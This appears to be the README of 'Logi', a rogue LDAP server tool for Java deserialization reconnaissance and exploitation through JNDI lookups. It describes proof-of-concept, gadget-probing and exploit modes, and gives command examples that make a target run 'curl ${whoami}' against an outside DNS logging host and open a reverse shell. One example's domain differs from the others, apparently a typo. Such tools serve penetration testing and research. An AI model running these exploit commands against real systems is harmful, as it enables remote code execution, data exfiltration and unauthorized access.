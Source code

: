 # LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.


- [LOGI](#logi)
  - [✨Get started](#get-started)
  - [⚙️How it work](#️how-it-work)
  - [🚀Examples](#examples)
  - [🔮Image](#image)
  - [💻See also](#see-also)

## ✨Get started
Download logi from release.
Use `-h` to show help.
```
$ ./logi -h
Logi is a ldap server focusing on ldap deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
MODE CONFIG:
   -m, -mode int  1 for poc, 2 for probe, 3 for exploit
SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")
...
```

## ⚙️How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize verify
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## 🚀Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.i'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
## 🔮Image
![image](image/logi.png)
## 💻See also
[GadgetProbe](https://github.com/BishopFox/GadgetProbe)

[JNDI-Inject-Exploit](https://github.com/exp1orer/JNDI-Inject-Exploit)
